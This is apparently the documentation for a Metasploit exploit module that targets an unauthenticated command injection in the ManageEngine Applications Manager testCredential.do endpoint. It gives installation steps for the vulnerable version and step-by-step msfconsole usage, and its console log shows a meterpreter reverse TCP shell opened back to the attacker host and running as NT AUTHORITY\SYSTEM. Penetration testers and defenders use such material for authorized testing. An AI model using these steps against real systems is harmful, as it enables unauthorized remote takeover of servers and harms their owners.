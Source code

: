 ## Vulnerable Application

This module exploits command injection vulnerability in the ManageEngine Applications Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[http://archives.manageengine.com/applications_manager/13630/](http://archives.manageengine.com/applications_manager/13630/)

## Verification Steps

A successful check of the exploit will look like this:

* Start `msfconsole`
* `use exploit/windows/http/manageengine_appmanager_exec`
* Set `RHOST <RHOST>`
* Set `PAYLOAD windows/meterpreter/reverse_tcp`
* Set `LHOST <LHOST>`
* Run `check`
* **Verify** that you are seeing `The target is vulnerable.` in console.
* Run `exploit`
* **Verify** that you are seeing `Triggering the vulnerability` in console.
* **Verify** that you are seeing `Sending stage to <TARGET>` in console.
* **Verify** that you have your shell.

## Scenarios

```
msf > 
msf > use exploit/windows/http/manageengine_appmanager_exec 
msf exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Triggering the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
